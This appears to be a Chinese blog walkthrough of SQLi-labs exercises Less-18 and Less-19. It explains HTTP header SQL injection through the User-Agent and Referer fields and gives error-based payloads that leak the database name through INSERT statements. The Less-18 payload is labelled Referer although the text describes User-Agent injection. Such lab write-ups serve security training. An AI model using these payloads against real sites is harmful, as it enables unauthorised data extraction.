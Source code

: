用正确的用户密码admin，admin登陆，发现登陆后返回了IP地址和Referer头信息

抓包后在User-Agent字段中插入单引号发现报错，在各个位置插入单引号，大概能拼接出他的语句应该是 INSERT INTO tables ("User-Agent", "IP", "User name")

<img src="http://oc42vgpoj.bkt.clouddn.com/less18_burp.png" />

<img src="http://oc42vgpoj.bkt.clouddn.com/less18_error1.png" />

<img src="http://oc42vgpoj.bkt.clouddn.com/less18_error2.png" />

<h3>Insert</h3>
用于向表中插入新的行

INSERT INTO 表名 VALUES(value1, value2, ...)

比如：INSERT INTO User VALUES("Tom", "12")

VALUES 中插入的值也可以是逻辑运算的结果

<h3>Payload</h3>
于是我们想办法构造这个语句，从中间截断闭合。由于能够进行逻辑运算，我们可以采用报错注入的方法去获取需要的信息。

<pre class="lang:tsql decode:true" title="Payload">Referer: 1',1,(select 1 from (select count(*),(concat("~",database(),"~",floor(rand(0)*2)))name 
from information_schema.tables group by name)b))#</pre>

<img src="http://oc42vgpoj.bkt.clouddn.com/less18_result.png" />

<h2>Less-19</h2>
Less-19是在Referer位置进行注入，同样属于Header注入，道理类似。

<h3>测试</h3>
发现在正确登陆后会显示Referer的信息，抓包后进行分析，在Referer那一行插入一个引号，发现报错。

<img src="http://oc42vgpoj.bkt.clouddn.com/less19_error1.png" />

<img src="http://oc42vgpoj.bkt.clouddn.com/less19_error2.png" />

然而需要注意的是，报错并不会把所有信息都显示给你，我们在Referer信息之前插入引号与在Referer信息之后插入引号报错信息不同，根据两部分信息能够拼接和猜测出真正的后台语句是

INSERT INTO table VALUE('Referer','IP');

<img src="http://oc42vgpoj.bkt.clouddn.com/less19_test.png" />

<pre class="lang:tsql decode:true" title="Payload">Referer:1', (select 1 from (select count(*),(concat("~",database(),"~",
floor(rand(0)*2)))name from information_schema.tables group by name)b)) #</pre>

<img src="http://oc42vgpoj.bkt.clouddn.com/less19_payload.png" />